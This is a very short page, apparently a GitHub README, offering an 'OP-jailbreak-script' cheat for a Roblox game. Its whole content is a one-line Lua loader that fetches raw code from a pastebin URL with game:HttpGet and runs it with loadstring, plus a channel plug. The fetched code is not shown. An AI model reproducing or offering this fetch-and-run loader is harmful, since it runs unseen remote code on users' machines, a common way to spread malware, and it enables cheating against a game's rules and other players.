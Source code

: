 # OP-jailbreak-script
loadstring(game:HttpGet(('https://pastebin.com/raw/yCrBkPaY'), true))() --subscribe to Rixard! -- made by JacosAlt... (discord in disc)

